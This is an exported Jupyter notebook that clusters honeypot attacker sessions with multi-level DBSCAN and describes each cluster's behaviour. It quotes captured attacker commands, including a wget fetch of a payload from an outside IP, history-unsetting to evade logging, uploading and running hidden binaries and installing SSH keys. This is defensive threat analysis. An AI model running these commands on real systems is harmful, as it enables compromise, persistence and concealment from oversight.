04325e1c3612,18.0,10.0,1.168321,0.146606,0.062246,0.057499,0.300000,0.000000,0.0,0.000000,0.055556,0.153846,12.0
046f8497b33c,16.0,7.0,68.138285,19.250063,3.213395,7.856331,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
05b4b4baeca0,78.0,23.0,128.298447,27.763230,4.396312,5.476454,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0


In [45]:
dataset_commands.loc['010ad96c3f21']

,message
session_id,
010ad96c3f21,CMD: enable
010ad96c3f21,CMD: development
010ad96c3f21,CMD: shell
010ad96c3f21,CMD: sh
010ad96c3f21,CMD: linuxshell
010ad96c3f21,CMD: /bin/busybox TSUNAMI
010ad96c3f21,CMD: /bin/busybox cat /bin/busybox


## 5.3 Behavioral Analysis of Level 2 – Cluster 1

Cluster 1 contains mixed malicious activity from **two different bot variants**, both
showing clear compromise attempts but with different objectives.

### **Pattern A – Download-Based Infection flow**
- Changes directory to `/tmp`, a writable location commonly used for malware.
- Downloads a remote file:
  `wget http://187.113.34.8/read.txt`
  → Likely a malicious script or payload used to initiate infection.

### **Pattern B – System Resource Inspection behavior**
- Runs `top -bn1` to read CPU and memory usage.
  → Often done to determine whether the system is suitable for mining, DDoS activity, or
    other resource-intensive payloads.

**Conclusion:**
Cluster 1 groups together **infection-stage bots**, where one focuses on downloading
payloads while the other performs resource probing to decide next steps.


In [46]:
df.loc[df_reduced_noise[df_reduced_noise['cluster'] == 1].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
0e9a116b674c,7.0,1.0,2.695724,0.0,0.0,0.0,0.0,0.0,0.0,0.285714,0.142857,1.0,1.0
0ed55be31c3e,8.0,1.0,2.595570,0.0,0.0,0.0,0.0,0.0,0.0,0.375000,0.125000,1.0,1.0
361ddb8dd445,8.0,1.0,3.258213,0.0,0.0,0.0,0.0,0.0,0.0,0.375000,0.125000,1.0,1.0
40b223ba5f07,7.0,1.0,2.696347,0.0,0.0,0.0,0.0,0.0,0.0,0.285714,0.142857,1.0,1.0
420a433b69cc,7.0,1.0,2.735808,0.0,0.0,0.0,0.0,0.0,0.0,0.285714,0.142857,1.0,1.0
45603fc9fca7,7.0,1.0,2.667823,0.0,0.0,0.0,0.0,0.0,0.0,0.285714,0.142857,1.0,1.0
476098b0b828,7.0,1.0,2.672163,0.0,0.0,0.0,0.0,0.0,0.0,0.285714,0.142857,1.0,1.0
56e43c821f90,8.0,1.0,2.511564,0.0,0.0,0.0,0.0,0.0,0.0,0.375000,0.125000,1.0,1.0
648ea6d72965,8.0,1.0,4.498856,0.0,0.0,0.0,0.0,0.0,0.0,0.375000,0.125000,1.0,1.0


In [47]:
dataset_commands.loc['0e9a116b674c']

message    CMD:  cd /tmp; wget http://187.113.34.8/read.t...
Name: 0e9a116b674c, dtype: object

In [48]:
dataset_commands.loc['648ea6d72965']

message    CMD: top -bn1
Name: 648ea6d72965, dtype: object

## 5.4 Behavioral Analysis of Level 2 – Cluster 2

Cluster 2 represents a bot focused on **reconnaissance and evasion** rather than direct
infection.

Key observations:

- Executes `uname -a` to obtain full system information (kernel, OS, architecture).
  → Helps determine compatible exploits or binaries.

- Unsets shell history variables:
  `unset HISTORY HISTFILE HISTSAVE ...`
  → Disables command logging to avoid leaving traces.

**Conclusion:**
This cluster is consistent with a **stealth-oriented reconnaissance bot**, gathering system
details while actively evading detection.


In [49]:
df.loc[df_reduced_noise[df_reduced_noise['cluster'] == 2].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
a58d9f7733c1,6.0,1.0,131.659141,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
dcb1be3bf5fb,8.0,3.0,15.199545,1.408061,1.299961,0.152876,0.0,0.0,0.0,0.250000,0.125000,0.333333,3.0
6949f4703a02,6.0,1.0,4.974362,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
a328ccd0438a,6.0,1.0,3.968373,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
e5a2113e0c22,7.0,1.0,2.900263,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.285714,0.142857,0.555556,5.0
03396d14a72e,6.0,1.0,0.741501,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
0391c045cf87,6.0,1.0,0.640105,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
06d1d6db67d2,6.0,1.0,0.692197,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0
09e1d22fd3f4,6.0,1.0,1.337243,0.000000,0.000000,0.000000,0.0,0.0,0.0,0.333333,0.166667,0.500000,2.0


In [50]:
dataset_commands.loc['a328ccd0438a']

message    CMD: uname -a;unset HISTORY HISTFILE HISTSAVE ...
Name: a328ccd0438a, dtype: object

## 6) DBSCAN – Level 3 Clustering (Low-Density Layer)

Level 3 applies DBSCAN to the remaining noise from Level 2.
At this stage, only the **sparsest and most irregular sessions** remain, so we further
relax the parameter:

- smaller `min_samples`

This allows DBSCAN to detect low-density attacker behaviors that may correspond to:

- semi-human activity,
- script kiddies with inconsistent patterns,
- rare or stealthy bots.

We isolate the Level 2 noise, rescale the features, run DBSCAN, and inspect the
resulting clusters.


In [51]:
df_reduced_noise_2 = df_reduced_noise[df_reduced_noise['cluster'] == -1]

scaler = StandardScaler()
X_scaled = scaler.fit_transform(df_reduced_noise_2)


dbscan = DBSCAN(eps=1, min_samples=75, metric='euclidean')
clusters = dbscan.fit_predict(X_scaled)

# ==========================
# 4) Add clusters to the clean DataFrame
# ==========================
df_reduced_noise_2['cluster'] = clusters

# ==========================
# 5) Results
# ==========================
print("Number of clusters found (excluding noise):", len(set(clusters)) - (1 if -1 in clusters else 0), '\n')
print(df_reduced_noise_2['cluster'].value_counts(), '\n')

Number of clusters found (excluding noise): 3 

cluster
 0    130
 2    120
 1    113
-1    108
Name: count, dtype: int64 



C:\Users\ruben\AppData\Local\Temp\ipykernel_95896\1043656223.py:13: SettingWithCopyWarning:


A value is trying to be set on a copy of a slice from a DataFrame.
Try using .loc[row_indexer,col_indexer] = value instead

See the caveats in the documentation: https://pandas.pydata.org/pandas-docs/stable/user_guide/indexing.html#returning-a-view-versus-a-copy



## 6.1 PCA 3D Visualization of Level 3 Clusters

For the lowest-density layer (Level 3), we again project the data into 3 PCA components
and visualize only the non-noise clusters.

The PCA space is rescaled for visualization, and an animated 3D Plotly scatter is used
to rotate the camera. This helps inspect how these sparse clusters (often script kiddies
or human-like sessions) are distributed once the denser bot activity has been removed.


In [52]:
X_pca = pca.fit_transform(X_scaled)
# ==========================
# 1.1) SCALING PCA FOR VISUALIZATION ONLY
# ==========================
scaler_vis = MinMaxScaler()
X_pca_vis = scaler_vis.fit_transform(X_pca)

# ==========================
# 2) Prepare clusters
# ==========================
clusters = df_reduced_noise_2['cluster'].values
unique_clusters = np.unique(clusters)

# ==========================
# 3) Create interactive figure
# ==========================
fig = go.Figure()
colors = ['red', 'blue', 'green', 'purple', 'brown',
          'pink', 'gray', 'cyan', 'magenta']

for i, cluster in enumerate(unique_clusters):
    if cluster == -1:
        continue
    cluster_mask = clusters == cluster
    label = f"Cluster {cluster}" if cluster != -1 else "Noise"

    fig.add_trace(go.Scatter3d(
        x=X_pca_vis[cluster_mask, 0],
        y=X_pca_vis[cluster_mask, 1],
        z=X_pca_vis[cluster_mask, 2],
        mode='markers',
        marker=dict(
            size=4,
            color=colors[i % len(colors)],
            opacity=0.85
        ),
        name=label
    ))

# ==========================
# 4) Layout
# ==========================
fig.update_layout(
    title="DBSCAN Clusters (PCA 3D Scaling for Visualization)",
    scene=dict(
        xaxis_title='PCA 1 (scaled)',
        yaxis_title='PCA 2 (scaled)',
        zaxis_title='PCA 3 (scaled)'
    ),
    width=800,
    height=600
)


import numpy as np

# ==========================
# 4.1) Add automatic rotation
# ==========================

def rotate_camera(angle):
    return dict(
        eye=dict(
            x=2*np.cos(angle),
            y=2*np.sin(angle),
            z=0.5
        )
    )

frames = []
angles = np.linspace(0, 2*np.pi, 120)  # 120 steps for 360°

for angle in angles:
    frames.append(
        go.Frame(layout=dict(scene_camera=rotate_camera(angle)))
    )

fig.frames = frames

fig.update_layout(
    updatemenus=[
        dict(
            type="buttons",
            showactive=False,
            buttons=[
                dict(
                    label="▶ Auto-Rotate",
                    method="animate",
                    args=[
                        None,
                        dict(frame=dict(duration=50, redraw=True),
                             fromcurrent=True,
                             transition=dict(duration=0))
                    ]
                )
            ],
            x=0.1,
            y=0.05
        )
    ]
)


# ==========================
# 5) Show figure
# ==========================
fig.show()


## 6.2 Behavioral Analysis of Level 3 – Cluster 0

Cluster 0 at Level 3 is consistent with a **highly intrusive malware bot** performing a full
compromise sequence.

Key observations:

- Reads startup and cron files (`/etc/rc.local`, `crontab -l`) → persistence checks.
- Uploads and executes hidden binaries (`scp -t`, `/tmp/knrm`, `/tmp/r`).
- Removes or modifies hidden files (`rm -f ~/.dhpcd`, `chattr -i -a`).
- Attempts password changes and account takeover (`passwd test`, `passwd oracle`).
- Installs attacker-controlled SSH keys (`~/.ssh/authorized_keys`).
- Checks open ports (`netstat`, `ss`) for exploitation or cover.
- Executes `top -bn1` to observe system load.
- Cleans dropped files to remove traces.

**Conclusion:**
This cluster is strongly aligned a **full-compromise malware workflow**, including persistence,
privilege escalation, payload deployment, and cleanup.


In [54]:
df.loc[df_reduced_noise_2[df_reduced_noise_2['cluster'] == 0].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
040b0f8fb6c9,106.0,50.0,252.109637,48.238366,5.082035,10.178683,0.0,0.0,0.0,0.028302,0.009434,0.980000,2.0
26b8838e050f,98.0,46.0,192.462199,52.249223,4.188550,8.730391,0.0,0.0,0.0,0.030612,0.010204,0.978261,2.0
2e13308b9568,98.0,46.0,159.335442,47.906913,3.475565,7.763664,0.0,0.0,0.0,0.030612,0.010204,0.978261,2.0
34b1c6f921f7,98.0,46.0,268.606577,55.689528,5.854220,9.403474,0.0,0.0,0.0,0.030612,0.010204,0.978261,2.0
4324a6fc6c9f,98.0,46.0,196.931454,49.256393,4.286031,8.910410,0.0,0.0,0.0,0.030612,0.010204,0.978261,2.0
5b877f5de97f,106.0,50.0,194.262670,52.767977,3.905833,8.324826,0.0,0.0,0.0,0.028302,0.009434,0.980000,2.0
7ccb22f90c03,106.0,50.0,171.499420,49.177281,3.383975,7.660810,0.0,0.0,0.0,0.028302,0.009434,0.980000,2.0
847d868822b4,106.0,50.0,239.137157,59.315278,4.805513,10.572714,0.0,0.0,0.0,0.028302,0.009434,0.980000,2.0
e673fa2bd000,102.0,48.0,244.493299,57.561186,5.134255,10.076835,0.0,0.0,0.0,0.029412,0.009804,0.979167,2.0


In [55]:
dataset_commands.loc['ead0d45c06a5'].head(10)

,message
session_id,
ead0d45c06a5,CMD: LC_ALL=C cat /etc/rc.local /etc/rc.d/rc.l...
ead0d45c06a5,CMD: LC_ALL=C crontab -l
ead0d45c06a5,CMD: scp -t ~/5tmx3d7wjs2i3d9bep51kbi4n4
ead0d45c06a5,CMD: LC_ALL=C ~/5tmx3d7wjs2i3d9bep51kbi4n4
ead0d45c06a5,CMD: LC_ALL=C rm -f ~/5tmx3d7wjs2i3d9bep51kbi4n4
ead0d45c06a5,CMD: LC_ALL=C chattr -i -a ~/.dhpcd
ead0d45c06a5,CMD: LC_ALL=C rm -f ~/.dhpcd
ead0d45c06a5,CMD: LC_ALL=C rmdir ~/.dhpcd
ead0d45c06a5,CMD: scp -t ~/.dhpcd


## 6.3 Behavioral Analysis of Level 3 – Cluster 1

Cluster 1 contains bots focused mainly on **reconnaissance and stealth**.

Key observations:

- Disables shell history (`unset HISTORY HISTFILE …`)
  → Defense evasion to hide executed commands.

- Collects detailed system information:
  `uname`, `free -m`, `ps -x`, `cat /proc/cpuinfo`
  → Retrieves OS version, memory, running processes, and CPU details.

**Conclusion:**
This cluster is very likely to **stealthy reconnaissance bot**, gathering system info while
actively avoiding logging. It is very similar to cluster 2 from Level 2.


In [56]:
df.loc[df_reduced_noise_2[df_reduced_noise_2['cluster'] == 1].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
05c9c7c42eaa,10.0,5.0,8.460570,0.994881,0.986471,0.008183,0.0,0.0,0.0,0.2,0.1,0.2,5.0
118c7a78e9c8,10.0,5.0,5.395402,0.610842,0.574433,0.036189,0.0,0.0,0.0,0.2,0.1,0.2,5.0
142e18f39ec0,10.0,5.0,6.396129,0.770664,0.768639,0.002139,0.0,0.0,0.0,0.2,0.1,0.2,5.0
1831c35a761b,10.0,5.0,68.951947,0.904014,0.902112,0.002530,0.0,0.0,0.0,0.2,0.1,0.2,5.0
18837d2a7388,10.0,5.0,7.916485,0.861092,0.781570,0.151831,0.0,0.0,0.0,0.2,0.1,0.2,5.0
20d732015941,10.0,5.0,6.816082,0.911533,0.758104,0.102825,0.0,0.0,0.0,0.2,0.1,0.2,5.0
21371867fe31,10.0,5.0,3.063371,0.380087,0.379431,0.000483,0.0,0.0,0.0,0.2,0.1,0.2,5.0
28c63c69bee4,10.0,5.0,8.966841,0.997417,0.983867,0.010118,0.0,0.0,0.0,0.2,0.1,0.2,5.0
2b6728306d80,10.0,5.0,13.191260,3.768581,1.733975,1.382398,0.0,0.0,0.0,0.2,0.1,0.2,5.0


In [57]:
dataset_commands.loc['05c9c7c42eaa']

,message
session_id,
05c9c7c42eaa,CMD: unset HISTORY HISTFILE HISTSAVE HISTZONE ...
05c9c7c42eaa,CMD: uname
05c9c7c42eaa,CMD: free -m
05c9c7c42eaa,CMD: ps -x
05c9c7c42eaa,CMD: cat /proc/cpuinfo


## 6.4 Behavioral Analysis of Level 3 – Cluster 2

Cluster 2 shows minimal interaction but clear signs of **stealthy bot activity**.

Key observation:

- Disables shell history (`unset HISTORY HISTFILE …`)
  → Typical defense evasion technique to hide executed commands.

**Conclusion:**
A lightweight stealth bot whose primary action is avoiding command logging. As the previous one, it is very similar to cluster 2 from Level 2.


In [58]:
df.loc[df_reduced_noise_2[df_reduced_noise_2['cluster'] == 2].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
10a0bd5b7d11,9.0,1.0,1.928035,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
602e8fc9d248,9.0,1.0,3.222301,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
77384dd5f05a,9.0,1.0,1.319250,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
880feb6d53bd,9.0,1.0,4.165638,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
a763cabc3bd9,9.0,1.0,1.829027,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
f0ed684509af,9.0,1.0,2.345778,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
0d68abd74d65,9.0,1.0,4.012520,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
5d88b8f38a25,9.0,1.0,2.431071,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0
c40c6a1ed760,9.0,1.0,15.416038,0.0,0.0,0.0,0.0,0.999999,0.0,0.222222,0.222222,0.5,2.0


In [59]:
dataset_commands.loc['10a0bd5b7d11']

message    CMD: uname -a;unset HISTORY HISTFILE HISTSAVE ...
Name: 10a0bd5b7d11, dtype: object

## 6.5 PCA 3D Visualization of Level 3 Noise

To analyze the remaining unclustered sessions in Level 3 (`cluster = -1`), we project
them into PCA space and visualize them separately.
This helps identify whether the residual noise forms any structure or if it truly
corresponds to irregular, sparse, or anomalous behavior that DBSCAN cannot group.

In [60]:
fig = go.Figure()
colors = ['red', 'blue', 'green', 'purple', 'brown',
          'pink', 'gray', 'cyan', 'magenta']

for i, cluster in enumerate(unique_clusters):
    if cluster != -1:
        continue
    cluster_mask = clusters == cluster
    label = f"Cluster {cluster}" if cluster != -1 else "Noise"

    fig.add_trace(go.Scatter3d(
        x=X_pca_vis[cluster_mask, 0],
        y=X_pca_vis[cluster_mask, 1],
        z=X_pca_vis[cluster_mask, 2],
        mode='markers',
        marker=dict(
            size=4,
            color=colors[i % len(colors)],
            opacity=0.85
        ),
        name=label
    ))

# ==========================
# 4) Layout
# ==========================
fig.update_layout(
    title="DBSCAN Clusters (PCA 3D Scaling for Visualization)",
    scene=dict(
        xaxis_title='PCA 1 (scaled)',
        yaxis_title='PCA 2 (scaled)',
        zaxis_title='PCA 3 (scaled)'
    ),
    width=800,
    height=600
)


import numpy as np

# ==========================
# 4.1) Add automatic rotation
# ==========================

def rotate_camera(angle):
    return dict(
        eye=dict(
            x=2*np.cos(angle),
            y=2*np.sin(angle),
            z=0.5
        )
    )

frames = []
angles = np.linspace(0, 2*np.pi, 120)  # 120 pasos para 360°

for angle in angles:
    frames.append(
        go.Frame(layout=dict(scene_camera=rotate_camera(angle)))
    )

fig.frames = frames

fig.update_layout(
    updatemenus=[
        dict(
            type="buttons",
            showactive=False,
            buttons=[
                dict(
                    label="▶ Auto-Rotate",
                    method="animate",
                    args=[
                        None,
                        dict(frame=dict(duration=50, redraw=True),
                             fromcurrent=True,
                             transition=dict(duration=0))
                    ]
                )
            ],
            x=0.1,
            y=0.05
        )
    ]
)


# ==========================
# 5) Show figure
# ==========================
fig.show()

## 6.6 Analysis of Level 3 Noise Points

The remaining noise sessions at Level 3 represent samples that DBSCAN could not group
into any cluster. These points are highly scattered and heterogeneous because they
contain a mix of:

- true outliers with irregular behavior, and
- normal or benign users whose activity does not resemble bot patterns.

Their variability and low density explain why they remain unclustered even after
three iterations of DBSCAN.


In [62]:
df.loc[df_reduced_noise_2[df_reduced_noise_2['cluster'] == -1].index].head()

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
051da2977a31,41.0,19.0,135.831325,52.700862,5.914595,11.830356,0.000000,0.000000,0.0,0.048780,0.024390,0.558824,16.0
27983da3ac55,74.0,22.0,182.448801,124.406758,8.298288,26.863638,0.090909,0.136364,0.0,0.027027,0.054054,0.555556,17.0
406dee68c2f5,77.0,23.0,173.889699,127.652680,7.469536,26.895480,0.086957,0.173913,0.0,0.025974,0.064935,0.538462,19.0
54e333fda40e,104.0,49.0,698.387200,175.072975,14.294518,32.344171,0.000000,0.000000,0.0,0.028846,0.009615,0.979592,2.0
67d8a4cb5eb4,77.0,23.0,152.099788,113.885212,6.452593,24.054963,0.086957,0.173913,0.0,0.025974,0.064935,0.538462,19.0


## 6.7 Samples of Expert Hackers

Below are detailed examples of sessions that clearly exhibit the behavior of skilled
human attackers rather than automated bots. These sessions show intentionality,
diverse command usage, irregular timing, and actions consistent with manual decision-making.

---

### **Session: 051da2977a31**

**Timing & Command Flow**
- `std_inter_command_time = 11.83 s`
  → Moderately irregular timing. Commands are not executed at a constant pace, which
    is typical of humans who pause to think or review output between actions.

**Command Diversity**
- `command_diversity = 16`
- `unique_commands_ratio ≈ 0.56`
  → High variety with little repetition. Indicates system knowledge and the ability to
    combine multiple tools, characteristic of an experienced operator.

**Execution Quality**
- `command_error_rate = 0.0`
  → No mistakes in command usage, suggesting precision and familiarity with the
    command-line environment.

**Session Activity**
- `session_duration = 135.8 s`
- `num_events = 41`
  → Roughly one command every 3–4 seconds, enough time for a human to think,
    interpret results, and plan the next action. Indicates active and efficient manual use.

**Behavioral Notes**
- Performs varied actions, albeit without major exploitation attempts or file transfers.
  → Diversity and intentionality strongly suggest manual interaction, not automation.

---

### **Session: 27983da3ac55**

**Timing & Irregularity**
- `std_inter_command_time = 26.86 s`
  → Very irregular timing with long and short pauses. Reflects thinking, evaluating
    results, or planning next steps, again consistent with human behavior.

**Command Diversity**
- `command_diversity = 17`
- `unique_commands_ratio ≈ 0.56`
  → High command variety with little repetition, indicating mastery and knowledge
    of multiple system utilities.

**Execution Quality**
- `command_error_rate ≈ 9%`
  → A few errors, which is normal even for skilled attackers when experimenting with
    commands or probing unfamiliar systems.

**Operational Behavior**
- `file_transfer_ratio ≈ 14%`
- `exploit_ratio ≈ 5%`
  → Performs a mix of file transfers and low-level exploitation attempts. Suggests
    purposeful actions that require expertise beyond simple terminal usage.

**Session Activity**
- `num_commands = 22`
- `num_events = 74`
  → High activity with an efficient but non-mechanical pace, consistent with a focused
    human conducting exploration and targeted tasks.

---

### **Overall Conclusion**

Both sessions strongly align with **expert human attacker behavior**, marked by:

- deliberate pacing,
- high command diversity,
- intentional exploration,
- minimal repetition,
- signs of thinking/decision-making between commands,
- and targeted use of system tools.

These examples are likely from **skilled operators**, not bots or script kiddies.


## 6.8 Samples of Script Kiddies

The following sessions exhibit behaviors commonly associated with **script kiddies**:
novice users with limited technical knowledge, low command diversity, and frequent
mistakes while interacting with the system.

---

### **Session: 60a1c78f32a4**

**Timing & Pace**
- `std_inter_command_time ≈ 36 s`
  → Very irregular timing with long pauses, suggesting hesitation or uncertainty.

**Command Usage**
- `command_diversity = 3`
- `unique_commands_ratio ≈ 0.33`
  → Very limited set of commands with repeated usage, indicating low familiarity
    with the system.

**Execution Quality**
- `command_error_rate ≈ 66%`
  → Extremely high error rate, typical of inexperienced users making frequent mistakes.

**Activity Characteristics**
- `file_transfer_ratio ≈ 33%`
  → Performs some file transfers, but the combination of errors and low command
    diversity reflects inexperience.
- `num_commands = 3`
- `num_events = 16`
  → Very low overall activity and minimal experimentation.

**Conclusion:**
Is consistent with a novice experimenting with a small set of commands, with little system
understanding and high error frequency.

---

### **Session: 227750191cbc**

**Timing & Pace**
- `std_inter_command_time ≈ 6.85 s`
  → Short pauses and a relatively steady rhythm, though still showing hesitation.

**Command Usage**
- `command_diversity = 11`
- `unique_commands_ratio ≈ 0.29`
  → Some experimentation but still low command diversity overall, with repeated actions.

**Execution Quality**
- `command_error_rate ≈ 21%`
  → High error rate, consistent with someone still learning.

**Activity Characteristics**
- `file_transfer_ratio = 0`
  → No files transferred; the user sticks to basic commands.
- `num_commands = 14`
- `num_events = 31`
  → Moderate activity but limited command variety.

**Conclusion:**
Shows clear signs of a script kiddie: basic usage of the terminal, repeated mistakes,
and limited exploration of system capabilities.

---

### **Overall Interpretation**

Both sessions show:

- low to moderate command diversity,
- high error rates,
- hesitation between commands,
- and limited system knowledge.

These are hallmark traits of **script kiddies**, distinguishing them from both automated bots and skilled human attackers.


## 6.9 Outlier Bots

These sessions are labeled as noise not because they are benign, but because their
behavior does not fit well into any cluster. They represent **edge-case bots** whose
patterns are either extremely consistent or extremely minimal.

---

### **Session: 890cb40f9e53**

**Timing & Regularity**
- `std_inter_command_time ≈ 0.75 s`
  → Very regular and almost constant timing, typical of automated scripts.

**Execution Quality**
- `command_error_rate = 0%`
  → Perfect execution with no mistakes, strongly suggesting mechanized behavior.

**Activity Characteristics**
- `num_commands = 19`, `num_events = 41`
  → Moderate interaction volume, executed with machine-like consistency.
- `session_duration ≈ 5049 s (~1.4 hours)`
  → Extremely long session duration, a key reason this sample appears as noise.

**Conclusion:**
An automated bot with highly regular timing that does not resemble natural human
behavior but also does not fit the patterns of other bot families.

---

### **Session: a1e66dd17777**

**Activity Level**
- `num_commands = 1`, `num_events = 7`
  → Minimal interaction; almost no activity.

**Timing**
- `session_duration ≈ 2.07 s`
  → Extremely short session.

**Execution Quality**
- `command_error_rate ≈ 100%`
  → The only command executed failed. A human would typically retry or modify the
    command; this suggests faulty or misconfigured automation.

**Conclusion:**
Likely an improperly configured bot that attempted a single failing action before
terminating, resulting in behavior too sparse to cluster.

---

### **Overall Interpretation**

These cases are interpreted as **outlier bots**: automated behaviors that are either too
regular, too minimal, or too inconsistent to cluster with standard bot families.


## 7) Building a unified cluster table across the three density levels

In order to analyse and post-process the hierarchical DBSCAN results, we first need
a **single table** that, for each `session_id`, contains the cluster assignments
coming from all three density levels:

- **Level 1**: clusters computed on the full dataset (`df_reduced`).
- **Level 2**: clusters computed only on the noise of Level 1 (`df_reduced_noise`).
- **Level 3**: clusters computed only on the noise of Level 2 (`df_reduced_noise_2`).

Since `session_id` was originally used as the DataFrame index, we explicitly convert
it into a proper column in the three DataFrames. Then we build three small tables:

- `df_l1`: `session_id` + `cluster_l1`
- `df_l2`: `session_id` + `cluster_l2`
- `df_l3`: `session_id` + `cluster_l3`

Finally, we merge them into a single DataFrame called `df_clusters`, which will be
the **base structure** used in the next steps to:

1. Decide which level’s cluster is the “effective” one for each session.
2. Apply our custom similarity-based fusion rules across levels.
3. Derive the final, interpretable behavioral groups for all attackers.


In [63]:
df_reduced = df_reduced.copy()
if 'session_id' not in df_reduced.columns:
    df_reduced = df_reduced.reset_index().rename(columns={'index': 'session_id'})

df_reduced_noise = df_reduced_noise.copy()
if 'session_id' not in df_reduced_noise.columns:
    df_reduced_noise = df_reduced_noise.reset_index().rename(columns={'index': 'session_id'})

df_reduced_noise_2 = df_reduced_noise_2.copy()
if 'session_id' not in df_reduced_noise_2.columns:
    df_reduced_noise_2 = df_reduced_noise_2.reset_index().rename(columns={'index': 'session_id'})


# Level 1: all sessions
df_l1 = df_reduced[['session_id', 'cluster']].copy()
df_l1 = df_l1.rename(columns={'cluster': 'cluster_l1'})

# Level 2: only level 1 noise
df_l2 = df_reduced_noise[['session_id', 'cluster']].copy()
df_l2 = df_l2.rename(columns={'cluster': 'cluster_l2'})

# Level 3: only level 2 noise
df_l3 = df_reduced_noise_2[['session_id', 'cluster']].copy()
df_l3 = df_l3.rename(columns={'cluster': 'cluster_l3'})

df_clusters = (
    df_l1
    .merge(df_l2, on='session_id', how='left')
    .merge(df_l3, on='session_id', how='left')
)


## 7.1 Selecting the effective cluster per session: hierarchical priority rule

The hierarchical DBSCAN approach produces up to three cluster labels for each
session:

- `cluster_l1` → assigned in **Level 1** (high-density layer)
- `cluster_l2` → assigned in **Level 2** (medium-density layer, applied only to L1 noise)
- `cluster_l3` → assigned in **Level 3** (low-density layer, applied only to L2 noise)

However, each session must ultimately be assigned **one single cluster label** before
we can perform similarity-based fusion.
To do this, we apply a **priority rule** consistent with the hierarchical nature of the model:

1. **Level 1 takes precedence**
   If the session was clustered in Level 1 (i.e., `cluster_l1 != -1`), we keep that
   assignment. Level 1 represents the densest and most confident clusters.

2. **If Level 1 treated the session as noise**, we fall back to **Level 2**,
   *provided that Level 2 assigned a valid cluster*.

3. **If both Level 1 and Level 2 considered the session noise**, we check
   **Level 3**, the lowest-density clustering layer.

4. **If all three levels classify the session as noise**, we label it simply as `"NOISE"`.

The function `get_base_cluster()` encodes this rule and produces a unified label
of the form:
- `"L1_x"` for Level 1 clusters
- `"L2_x"` for Level 2 clusters
- `"L3_x"` for Level 3 clusters
- `"NOISE"` for sessions that remained unclustered across all levels

This column, saved as `base_cluster`, is the foundation for the subsequent fusion
step where clusters of similar attacker behavior will be grouped together.


In [64]:
import pandas as pd

def get_base_cluster(row):
    # Level 1 command if not noise
    if row['cluster_l1'] != -1:
        return f"L1_{int(row['cluster_l1'])}"
    # If level 1 is noise, we look at level 2
    if pd.notna(row['cluster_l2']) and row['cluster_l2'] != -1:
        return f"L2_{int(row['cluster_l2'])}"
    # If 1 and 2 are noise, we look at level 3
    if pd.notna(row['cluster_l3']) and row['cluster_l3'] != -1:
        return f"L3_{int(row['cluster_l3'])}"
    # If it’s all noise
    return "NOISE"

df_clusters['base_cluster'] = df_clusters.apply(get_base_cluster, axis=1)
df_clusters['base_cluster'].value_counts()


base_cluster
L1_0     10322
L1_1      5126
L2_0      2358
L1_2       716
L2_1       467
L1_4       386
L1_3       384
L2_2       156
L3_0       130
L3_2       120
L3_1       113
NOISE      108
Name: count, dtype: int64

## 7.2 Similarity-based fusion of clusters across density levels

Once each session has a unique base cluster (`L1_x`, `L2_x`, `L3_x`, or `NOISE`), the next step
is to merge clusters that represent **the same behavioral pattern**, even if they originate
from different DBSCAN density levels.

DBSCAN's hierarchical application (Level 1 → Level 2 → Level 3) separates attackers
based on density rather than on semantics.
Therefore, some clusters that appear in different levels (or as separate labels in the same
level) may actually correspond to the **same underlying attacker behavior**.

To correct this and build a meaningful taxonomy, we define a custom `group_map`
that merges clusters according to the behavioral analysis conducted earlier.
The grouping rules applied here are:

### **1. Level 1 clusters 0 and 1 → same group**
These clusters show nearly identical high-density automated bot behavior.

### **2. Level 1 clusters 2 and 3 + Level 2 cluster 0 → same group**
These clusters correspond to IoT / Mirai-like bot activity:
BusyBox usage, scanning patterns, and similar command sequences across density layers.

### **3. Level 2 cluster 2 + Level 3 clusters 1 and 2 → same group**
